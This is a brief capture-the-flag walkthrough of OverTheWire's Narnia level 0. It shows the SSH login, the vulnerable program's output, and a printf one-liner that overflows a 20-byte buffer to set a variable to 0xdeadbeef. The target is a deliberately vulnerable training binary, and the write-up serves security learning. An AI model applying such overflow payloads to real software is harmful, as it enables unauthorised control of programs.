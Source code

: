 ```yaml
---
title: narnia 0 walkthrough
description: over the wire narnia 0
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: narnia-0 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: narnia 0 walkthrough
    order: 30
---
```

## Description
> correct variable value via writing to another variable

---
## Progress
connect
```bash
$ ssh narnia0@narnia.labs.overthewire.org -p 2226
narnia0
```
execute
```bash
$ /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: a
buf: a
val: 0x41414141
WAY OFF!!!!
```
---
## Hint

---
## Solving
```bash
$ { printf 'a%0.s' {1..20} ; printf '\xef' ; printf '\xbe' ; printf '\xad' ; printf '\xde' ; cat ;} | /narnia/narnia0

Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: aaaaaaaaaaaaaaaaaaaaﾭ?
val: 0xdeadbeef
```

### Techniques
- [[buffer overflow]]

### Tools
- [[gef]]